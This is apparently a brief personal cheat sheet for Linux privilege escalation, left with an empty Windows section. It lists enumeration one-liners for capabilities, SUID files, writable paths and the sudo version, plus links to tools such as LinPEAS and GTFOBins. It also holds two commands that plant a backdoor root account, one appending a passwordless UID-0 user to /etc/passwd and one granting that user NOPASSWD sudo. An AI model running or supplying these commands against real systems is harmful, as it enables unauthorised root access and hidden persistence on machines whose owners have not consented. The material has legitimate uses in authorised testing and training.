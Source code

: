 # Privilege Escalation

## Linux
- `getcap -r / 2>/dev/null`<br>
- `find / -perm -u=s -type f 2>/dev/null`<br>
- `find -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`<br>
- `find / -writable 2>/dev/null | grep home | cut -d "/" -f 2,3 | sort -u`<br>
- `sudo -V` to check sudo version, which might be vulnerable.<br>
- `echo "vickie::0:0:System Administrator:/root/root:/bin/bash" >> /etc/passwd`<br>
- `echo "vickie ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`<br>
- 'groups`<br>
https://gtfobins.github.io/<br>
<hr>

### Basic Linux enumeration
https://cyberlab.pacific.edu/resources/linux-enumeration-cheat-sheet

+ linpeas.sh<br>

**Get Privilege Escalation vectors:**<br>
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS<br>
- LinEnum: https://github.com/rebootuser/LinEnum<br>
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester<br>
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration<br>
- Linux Priv Checker: https://github.com/linted/linuxprivchecker<br>

## Windows
